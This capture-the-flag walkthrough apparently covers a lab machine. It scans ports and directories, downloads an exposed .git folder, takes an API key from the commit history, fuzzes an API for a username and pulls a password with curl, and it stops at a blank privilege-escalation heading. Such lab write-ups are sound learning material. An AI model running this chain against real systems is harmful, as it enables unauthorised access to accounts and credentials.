


## Enumeration

#### Nmap

	PORT     STATE    SERVICE VERSION
	22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 b2:4c:49:da:7c:9a:3a:ba:6e:59:46:c2:a9:e6:a2:35 (RSA)
	|   256 7a:3e:30:70:cf:32:a4:f2:0a:cb:2b:42:08:0c:19:bd (ECDSA)
	|_  256 4f:35:e1:33:96:84:5d:e5:b3:75:7d:d8:32:18:e0:a8 (ED25519)
	80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
	| http-methods: 
	|_  Supported Methods: OPTIONS HEAD GET POST
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	427/tcp  filtered svrloc
	8081/tcp open     http    Werkzeug httpd 1.0.1 (Python 3.6.9)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS GET
	|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
	|_http-title: Site doesn't have a title (text/html; charset=utf-8).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

http/80



http/8081 Werkzeug httpd 1.0.1



The webpage its has login functionality but login and register are static not works.

But the _forgot_ page its interesting [http://10.10.89.35:8081/forgot](http://10.10.89.35:8081/forgot)


_"Not to worry. Just enter your username below and we'll show you your password.."_

As you seen above by entering the username to see the password. Just type random username intercept the request send to repeater.

```bash
POST /api/admin HTTP/1.1
Host: 10.10.89.35:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/json
Content-Length: 14
Origin: http://10.10.89.35:8081
Connection: close
Referer: http://10.10.89.35:8081/forgot?

{"key":"NULL"}
```

I gives username as admin. On the request above you seen its sends username by api /api/admin in POST request and data key:NULL.

```bash
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 15
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Sat, 14 Aug 2021 04:01:55 GMT

Invalid API Key
```  

The response is Invalid API Key so we have to enum(find) the key...

lets enum, firstly brute force the directory

#### Dirsearch

__8081__

	[09:34:42] 200 -   18B  - /api                   
	[09:34:42] 405 -  178B  - /api/error_log
	[09:34:42] 200 -   18B  - /api/          
	[09:34:42] 405 -  178B  - /api/jsonws
	[09:34:42] 405 -  178B  - /api/login.json
	[09:34:42] 405 -  178B  - /api/swagger                        
	[09:34:42] 405 -  178B  - /api/swagger-ui.html
	[09:34:42] 405 -  178B  - /api/swagger.yml
	[09:34:42] 405 -  178B  - /api/v2
	[09:34:42] 405 -  178B  - /api/v1                  
	[09:34:42] 405 -  178B  - /api/v3 
	[09:35:58] 200 -    1KB - /forgot                                              
	[09:36:25] 200 -    2KB - /login

Nothing found interesting.

__http/80__

	[09:34:56] 200 -   15B  - /index.html                                     
	[09:35:09] 301 -  308B  - /old  ->  http://10.10.89.35/old/
	[09:35:10] 200 -    1KB - /old/                    
	[09:35:24] 403 -  276B  - /server-status/                     
	[09:35:24] 403 -  276B  - /server-status    

In http/80 got dir /old/ run dirsearch against it.

	[20:16:46] 200 -   92B  - /old/.git/config                                                                                              
	[20:16:46] 200 -   23B  - /old/.git/HEAD 
	[20:16:46] 301 -  317B  - /old/.git  ->  http://10.10.101.255/old/.git/
	[20:16:46] 200 -   15B  - /old/.git/COMMIT_EDITMSG
	[20:16:46] 200 -    3KB - /old/.git/      
	[20:16:46] 200 -  773B  - /old/.git/branches/
	[20:16:46] 200 -   73B  - /old/.git/description
	[20:16:46] 200 -  435B  - /old/.git/index          
	[20:16:46] 200 -    5KB - /old/.git/objects/     
	[20:16:46] 200 -  240B  - /old/.git/info/exclude
	[20:16:46] 200 -    3KB - /old/.git/hooks/             
	[20:16:46] 200 -  960B  - /old/.git/info/              
	[20:16:46] 200 -  604B  - /old/.git/logs/HEAD
	[20:16:46] 200 -  604B  - /old/.git/logs/refs/heads/master
	[20:16:46] 200 -    1KB - /old/.git/logs/      
	[20:16:46] 301 -  327B  - /old/.git/logs/refs  ->  http://10.10.101.255/old/.git/logs/refs/
	[20:16:46] 301 -  333B  - /old/.git/logs/refs/heads  ->  http://10.10.101.255/old/.git/logs/refs/heads/
	[20:16:47] 200 -    1KB - /old/.git/refs/
	[20:16:47] 301 -  327B  - /old/.git/refs/tags  ->  http://10.10.101.255/old/.git/refs/tags/
	[20:16:47] 200 -   41B  - /old/.git/refs/heads/master    
	[20:16:47] 301 -  328B  - /old/.git/refs/heads  ->  http://10.10.101.255/old/.git/refs/heads/              
	[20:19:09] 200 -   10KB - /old/templates/index.html                       
	[20:19:09] 200 -   10KB - /old/templates/
	[20:19:09] 301 -  322B  - /old/templates  ->  http://10.10.101.255/old/templates

As brute force runs again /old/ we got interesting _.git_ files then gives a look into it

[http://10.10.101.255/old/.git/logs/refs/heads/master](http://10.10.101.255/old/.git/logs/refs/heads/master) we got commit! 

	0000000000000000000000000000000000000000 25fa9929ff34c45e493e172bcb64726dfe3a2780 root <cirius@incognito.com> 1616797939 +0000	commit (initial): First Commit
	25fa9929ff34c45e493e172bcb64726dfe3a2780 33891017aa63726711585c0a2cd5e39a80cd60e6 root <cirius@incognito.com> 1616798073 +0000	commit: Finishing Things
	33891017aa63726711585c0a2cd5e39a80cd60e6 cd0375717551c8c8287a53b78b014b7d7e4da3bb root <cirius@incognito.com> 1616798999 +0000	commit: Clearing
	cd0375717551c8c8287a53b78b014b7d7e4da3bb 038a67e0ebfde470bf83f31174b6e60726c646ae root <cirius@incognito.com> 1616799026 +0000	commit: Clearing again

For this git commit there is a tool called **git log** to review and read a history of everything that happens to a repository.

Firstly download those files

	wget --recursive http://10.10.101.255/old/.git -q

After downloaded move to the directory then use the tool

"Git log is a command used in Git to access the history of commits that the repository has gone through. A simple log command is executed by typing the following command inside git:"

	git log

```bash
┌──(arundhanush㉿kali)-[~/…/THM/chronicle/10.10.101.255/old]
└─$ git log         
commit 038a67e0ebfde470bf83f31174b6e60726c646ae (HEAD -> master)
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:50:26 2021 +0000

    Clearing again

commit cd0375717551c8c8287a53b78b014b7d7e4da3bb
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:49:59 2021 +0000

    Clearing

commit 33891017aa63726711585c0a2cd5e39a80cd60e6
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:34:33 2021 +0000

    Finishing Things

commit 25fa9929ff34c45e493e172bcb64726dfe3a2780
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:32:19 2021 +0000

    First Commit

```
And next 

"git log patch command displays the files that have been modified"

	git log --patch > paths

its gives us a lengthy output so i saves the output to file name paths 

And next looking into the file we got _key_

	less paths | grep key
```bash
┌──(arundhanush㉿kali)-[~/…/THM/chronicle/10.10.101.255/old]
└─$ less paths | grep key
-    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
-    if(data['key']=='7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef'):
-    if(data['key']=='abcd'):
+    if(data['key']=='7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef'):
+    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
+    if(data['key']=='abcd'):
```

Successfully API Key, lets send request with this key

```bash
POST /api/admin HTTP/1.1
Host: 10.10.89.35:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/json
Content-Length: 42
Origin: http://10.10.89.35:8081
Connection: close
Referer: http://10.10.89.35:8081/forgot?

{"key":"7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef"}

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 16
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Sat, 14 Aug 2021 04:16:29 GMT

Invalid Username

```

Its shows Invalid Username and I tried another usernames like admin, guest, cirius but nothing happens not works.

Lets try to FUZZ(ffuf) the username, payload I use the _Seclists_ Names.txt

Payload

	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

```bash
ffuf -w /opt/Seclists/Usernames/Names/names.txt -u http://10.10.120.54:8081/api/FUZZ -X POST -H "Content-Type: application/json" \
      -d '{"key":"toxxxy"}' -fr "error" -fs 16
```
its takes a time, I used that time to brush my teeth :D. 

```bash
:: Progress: [9418/10164] Job [1/1] 21 req/sec Duration: [0:07:22]
:: Progress: [9418/10164] Job [1/1] 21 req/sec Duration: [0:07:22]
:: Progress: [9418/10164] Job [1/1] 21 req/sec Duration: [0:07:22] 
toxxxy                   [Status: 200, Size: 49, Words: 1, Lines: 1 
:: Progress: [9419/10164] Job [1/1] 21 req/sec Duration: [0:07:23]
:: Progress: [9429/10164] Job [1/1] 20 req/sec Duration: [0:07:23] 
:: Progress: [9429/10164] Job [1/1] 20 req/sec Duration: [0:07:23]
```

Yeah, got it lets send the request with curl

```bash
curl -X POST http://10.10.120.54:8081/api/toxxxy -H "Content-Type: application/json" -d '{"key":"7454cxxxxxxxxxxxxxxxxxxxxxxbc7ef"}'

{"username":"toxxxy","password":"Devxxxxxxxx01"}
```
We got password successfully. Then what ssh get user.txt

## PrivESC


